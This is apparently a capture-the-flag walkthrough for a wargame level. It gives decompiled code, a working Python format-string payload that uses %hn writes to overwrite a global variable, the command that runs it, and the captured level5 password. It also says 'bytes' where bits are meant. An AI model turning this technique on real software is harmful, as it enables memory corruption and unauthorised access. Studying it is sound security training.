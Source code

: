 # Level 04 Walkthrough

## Binary analysis

The global variable `m` (address: 0x08049810) must be set to 0x01025544 to trigger the call to `system("/bin/cat /home/user/level5/.pass")`.

Relevant code:
```
08048444    int32_t p(char* arg1)
08048456        return printf(format: arg1)


08048457    uint32_t n()
0804847a        char buf[0x208]
0804847a        fgets(&buf, n: 0x200, fp: __bss_start)
08048488        p(&buf)
0804848d        uint32_t m_1 = m
0804848d        
08048497        if (m_1 != 0x1025544)
080484a6            return m_1
080484a6        
080484a0        return system(line: "/bin/cat /home/user/level5/.pass")
```

## Exploitation

We use a format string payload to write 0x01025544 into the global variable `m`. To write this value we would need to write 0x01025544 bytes (16,930,116) which would take forever and likely crash the program. Instead of one massive write we can split it into two smaller ones. Since `%n` allow us to write 32-bytes values, here we will use `%hn` for two 16-bytes values. By splitting it into two writes it allow us to only print 0x5544 (21,828) and 0x0102 (258) characters.   

Python script to generate the payload:
```python
import struct

address = 0x08049810
value_high = 0x0102
value_low = 0x5544
offset = 12

payload = struct.pack("<I", address + 2)
payload += struct.pack("<I", address)

padding_high = value_high - 8
payload += f"%{padding_high}x".encode('ascii')
payload += f"%{offset}$hn".encode('ascii')

offset += 1
padding_low = value_low - padding_high - 8
payload += f"%{padding_low}x".encode('ascii')
payload += f"%{offset}$hn".encode('ascii')

with open('payload.txt', 'wb') as f:
    f.write(payload)
```

## Commands used

```
cat /tmp/payload.txt | ./level4
```

## Result

After running the exploit, we get the password for level5:

```
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```
